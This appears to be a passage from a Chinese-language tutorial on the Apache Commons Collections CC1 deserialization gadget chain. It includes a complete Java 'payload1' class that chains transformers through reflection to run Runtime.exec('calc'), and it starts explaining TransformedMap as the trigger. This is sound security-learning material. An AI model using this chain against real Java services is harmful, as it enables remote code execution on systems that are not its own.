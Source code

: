 定义它的时候传入了一个Transformer数组，该方法就会依次调用每个Transformer的transform方法，并且调用方法传入的对象是上一个Transformer的transform方法的返回值。



在该类，我们可以依次通过反射调用多个类方法，这个位置也就是实现命令执行的地方。

实现命令执行：

```java
package payload.cc1;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;

public class payload1 {
    public static void main(String[] args) {
        ConstantTransformer ct = new ConstantTransformer(Runtime.class);
        InvokerTransformer it1 = new InvokerTransformer(
            "getMethod",
            new Class[]{String.class, Class[].class},
            new Object[]{"getRuntime", new Class[0]}
        );
        InvokerTransformer it2 = new InvokerTransformer(
            "invoke",
            new Class[]{Object.class, Object[].class},
            new Object[]{null, new Object[0]}
        );
        InvokerTransformer it3 = new InvokerTransformer(
            "exec",
            new Class[]{String.class},
            new Object[]{"calc"}
        );
        Transformer[] transformers = new Transformer[]{ct, it1, it2, it3};
        Transformer chainedTransformer = new ChainedTransformer(transformers);
        chainedTransformer.transform(null);
    }
}

```

命令执行的部分解决了，现在考虑是怎么去触发这个`chainedTransformer`的`thansform`方法

## TransformedMap类

类的构造是`protected`,不能实例化

```java
  protected TransformedMap(Map map, Transformer keyTransformer, Transformer valueTransformer) {
        super(map);
        this.keyTransformer = keyTransformer;
        this.valueTransformer = valueTransformer;
    }
```
